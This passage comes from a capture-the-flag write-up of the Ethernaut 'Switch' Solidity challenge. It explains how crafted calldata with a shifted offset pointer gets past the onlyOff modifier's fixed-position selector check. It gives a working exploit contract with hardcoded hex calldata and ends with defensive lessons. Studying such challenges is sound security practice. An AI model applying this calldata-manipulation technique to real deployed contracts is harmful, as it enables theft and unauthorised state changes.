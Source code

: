 {{< centered-image "/Ethernaut/Switch/img4.png" "My Centered Image" >}}

Now when we pass this data to the Switch contract, we are calling the `flipSwitch()` function, and the argument to the function refers to data in the zeroth slot (0x00), which is a pointer to the third slot (0x60). So it will get data from 0x60.

If we check the `onlyOff` modifier, it is copying 4 bytes of data starting from the 68th byte (4 bytes of function selector + 0x40) into a temporary array named `selector`. Then it compares the first element in the `selector` array with the `offSelector`.

In our data at 0x40, the data is the function selector of `turnSwitchOff()`, and `offSelector` is also the function selector of `turnSwitchOff()`. Since both match, the modifier will pass, but it will make a call to `turnSwitchOn()`.

That's it if you send this calldata to Switch contract then the challenge will be solved. Below is the Exploit contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ExploitSwitch {
    address Switch;
    constructor(address _addr){
        Switch=_addr;
    }
    function Exploit() public {
        bytes memory Calldata=hex"30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000420606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000";
        (bool a,)=Switch.call(Calldata);
        require(a,"Exploit Failed");
    }
}

```

That's it for this challenge. Hope you enjoyed this challege

### Key takeaways

We should try to avoid depending on our logic based on calldata because calldata can be manipulated.

In this case, instead of comparing the value at the 68th byte, it should first check where the zeroth slot (0x00) is pointing. Then the `calldatacopy` should get data from that location and compare the value. If we do this, we can prevent this exploit.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
